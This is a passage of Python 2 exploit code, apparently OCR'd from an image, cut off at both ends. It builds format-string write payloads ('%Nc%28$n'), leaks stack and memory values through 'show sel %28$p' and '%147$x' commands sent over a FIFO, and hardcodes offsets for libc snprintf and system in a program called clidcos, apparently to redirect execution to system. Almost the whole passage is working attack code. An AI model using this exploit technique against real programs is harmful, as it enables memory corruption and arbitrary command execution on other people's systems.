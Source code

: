 ```
        bb_c_payload = bb - 34
    if cc<34:
        cc_c_payload = cc + 222
    else:
        cc_c_payload = cc - 34
    if dd<34:
        dd_c_payload = dd + 222
    else:
        dd_c_payload = dd - 34
    aa_payload = "%" + str(aa_c_payload) + "c%28$n"
    bb_payload = "%" + str(bb_c_payload) + "c%28$n"
    cc_payload = "%" + str(cc_c_payload) + "c%28$n"
    dd_payload = "%" + str(dd_c_payload) + "c%28$n"
    aap = basepayload[:9] + aa_payload + basepayload[len(aa_payload)+9:]
    bbp = basepayload[:9] + bb_payload + basepayload[len(bb_payload)+9:]
    ccp = basepayload[:9] + cc_payload + basepayload[len(cc_payload)+9:]
    ddp = basepayload[:9] + dd_payload + basepayload[len(dd_payload)+9:]
    return [aap,bbp,ccp,ddp]

def clearlog():
    fo = open("output/log","w")
    fo.truncate()
    fo.close()

def readlog():
    logread = [line.strip('\n\0x00') for line in open('output/log')]
    return logread

def sendcommand(cmd):
    f=open("fifo1", "a+")
    f.write(cmd+"\n")
    f.close()

def dump(adr, frmt='p'):
    clearlog()
    leak_part = "show sel %28${}".format(frmt)
    raw_addr = struct.pack("I", adr)
    if "\x20" in raw_addr:
        print "space!"
    out = leak_part + "AAAAAAA"+raw_addr
    sendcommand(out)
    time.sleep(2)
    e = readlog()[0]
    outbin =  e.split("AAAAAAA")[0].split(": ")[2]
    clearlog()
    return outbin+"\x00"

def starting_point():
    clearlog()
    out = "show sel %147$x"
    sendcommand(out)
    time.sleep(2)
    e = readlog()[0]
    outbin =  e.split("AAAAAAA")[0].split(":")[2]
    clearlog()
    return outbin


clidcos_step = 0x1DB0C
libc_emulator_snprintf = 0x0004b210
libc_emulator_system = 0x0003af60

print "Going through some menus please wait a moment.."
```